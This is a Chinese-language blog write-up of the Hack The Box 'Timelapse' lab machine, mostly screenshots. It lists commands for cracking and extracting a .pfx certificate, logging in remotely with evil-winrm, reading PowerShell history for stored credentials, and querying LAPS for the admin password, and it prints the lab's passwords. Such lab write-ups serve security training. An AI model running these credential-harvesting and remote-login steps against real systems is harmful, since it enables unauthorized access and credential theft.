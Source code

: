+++
title = '0X008 Timelapse'
date = 2024-10-11T14:25:59+08:00
draft = false
private = true
show_reading_time = true
categories = 'HTB'
+++



# 端口扫描

![](/htb_img/WEBRESOURCE018e74c2d1d6b4774bee9e153f9fa396image.png)

![](/htb_img/WEBRESOURCE971f10663a36b5709df0dd5fdc3b60c4image.png)

![](/htb_img/WEBRESOURCE275264544e3a192dbc7b35ebacad3c79image.png)

# 获取立足点

smb匿名访问：

![](/htb_img/WEBRESOURCE7e4e95320e2efb7e81cb3556d4704ff7image.png)

疑似重置后的密码？

7c3XlgsE

![](/htb_img/WEBRESOURCE7987f78949a8217bb11355a4a8ca844eimage.png)

有密码：

![](/htb_img/WEBRESOURCE3c4eeca319f202c25dab2bc1ec1e574dimage.png)

破解：

![](/htb_img/WEBRESOURCEacda20c829e62857094e69c518ee487aimage.png)

但是这东西怎么用呢，后面刚好培训遇到了，pfx是一种存储个人信息的文件，简单理解可以理解为ssh密钥文件，不过普遍都是加密状态，需要解密，破解使用john即可：

thuglegacy

![](/htb_img/WEBRESOURCE4db93b4a2a32347beeac337f1e1ac932image.png)

然后需要将从pfx格式的文件，

openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out key.pem -nodes

openssl pkcs12 -in legacyy_dev_auth.pfx -nokeys -out cert.pem

![](/htb_img/WEBRESOURCE4bf5687eb4cea770d74add9eb7c84c4fimage.png)

evil-winrm -i 10.10.11.152 -c cert.pem -k key.pem -S

![](/htb_img/WEBRESOURCE3744727b51858143258abb2fdcf6a429image.png)

# 提权

powershell历史文件位置：

$env:APPDATA\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt

可以看到账号密码：

$p = ConvertTo-SecureString 'E3R$Q62^12p7PLlC%KWaxuaV' -AsPlainText -Force

$c = New-Object System.Management.Automation.PSCredential ('svc_deploy', $p)

![](/htb_img/WEBRESOURCE5315faf8cc6fcc4214a5969b8fa62464image.png)

使用账号密码登录：

![](/htb_img/WEBRESOURCE94bf3055f926c5dc11c032608831c240image.png)

查看当前权限：

又laps的读取权限：

![](/htb_img/WEBRESOURCE125390578e5d691443c473f5b336c969image.png)

laps的解释：

![](/htb_img/WEBRESOURCE66556495d8691b46e715104676085f76image.png)

命令：

Get-ADComputer DC01 -property *

l@11Z8394&pq%$ksR(/87QMx

![](/htb_img/WEBRESOURCE3875cb9197c80142e55b097533d1388cimage.png)

![](/htb_img/WEBRESOURCEd350d4a6c591d0dfc6759b642dc1a9f5image.png)

# 总结

这台靶机的难度其实不太好评判，因为主要涉及的问题在于认知问题，而不是思路上的缺陷。